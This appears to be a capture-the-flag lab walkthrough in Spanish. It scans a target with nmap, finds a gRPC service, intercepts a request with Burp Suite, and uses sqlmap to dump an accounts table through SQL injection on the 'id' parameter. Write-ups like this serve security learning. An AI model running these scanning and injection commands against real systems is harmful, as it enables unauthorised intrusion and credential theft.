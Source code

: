 -p- --
NOTA:
-p- : -> se utiliza para escanear todos los puertos TCP de un objetivo
-- open: -> se utiliza para mostrar solo los puertos abiertos
-sS: -> escaneo tipico TCP SYN
-sC:  -> se utiliza para activar los scripts de NSE (Nmap Scripting Engine).
-sV: -> se utiliza para realizar un escaneo de versión de servicios.
-min-rate: -> se utiliza para especificar la velocidad mínima de envío de paquetes durante un escaneo.
-Pn: -> se utiliza para indicar a Nmap que realice un escaneo sin enviar sondas de descubrimiento de host (ping)
-oN: -> se utiliza para guardar todo en un archivo


Ahora si procedamos 
primero se realiza un escaneo con nmap con la secuencia de comandos
nmap -p- --open -sS -sC -sV --min-rate 222 -Pn 10.10.11.214 -oN Escaneo
para que encuentre todos los puertos abiertos, esto nos arroja 2 puertos 
![[Pasted image 20230530171050.png]]
puerto 22 y puerto 50051
el en puerto 22 esta el servicio ssh y en el puerto 50051 gRPC (Google Remote Procedure Call)
una vez identificado vamos a este repo https://github.com/fullstorydev/grpcui/releases/tag/v1.3.1 y descargamos 
![[Pasted image 20230530184706.png]]

creamos una carpeta en descargas como grpcui y metemos el archivo allí, ejecutamos 
![[Pasted image 20230530190742.png]]
con lo que nos mandara  una url 
en donde pondremos los siguientes valores 
![[Pasted image 20230530192417.png]]

luego deberia salirnos un response como este y un token entre comillas simples
![[Pasted image 20230530192600.png]]

![[Pasted image 20230601181220.png]]
ahora vamos a  Getinfo en el method name.
donde dice name escribimos token
donde dice value escribimos el token que generamos anteriormente y en id ponemos 1.
antes de dar click en invoke usamos foxyproxy y burpsuite
ponemos el target
![[Pasted image 20230530192959.png]]
![[Pasted image 20230530193042.png]]
encendemos el proxy y el foxi proxy 
una vez hecho todo lo anterior en el burpsuite deberia aparecer lo siguiente 
![[Pasted image 20230530193633.png]]
hacemos clic derecho enviar a repeater, ahora lo guardamos como un archivo de texto plano. y vamos a usar sqlmap por lo que guardamos el archivo como pc
ahora ejecutamos
- sqlmap -r pc -p id --dbs
- sqlmap -r pc -p id --tables
- sqlmap -r pc -p id -D sqlite_masterdb -T accounts -- columns
- sqlmap -r pc -p id -D sqlite_masterdb -T accounts --batch --threads 5 --dump